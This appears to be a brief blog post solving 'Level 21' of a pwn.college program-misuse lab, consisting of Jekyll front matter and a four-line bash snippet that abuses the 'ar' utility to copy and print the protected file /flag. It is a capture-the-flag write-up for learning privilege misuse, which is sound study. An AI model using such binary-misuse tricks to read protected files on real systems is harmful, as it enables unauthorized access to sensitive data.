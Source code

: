 ```yaml
---
layout: post
title: "Level 21"
date: 2024-4-10 12:00:00 -0000
categories: [pwn college, program misuse]
---
```


```bash
TF=$(mktemp -u)
LFILE=/flag
ar r "$TF" "$LFILE"
cat "$TF"
```
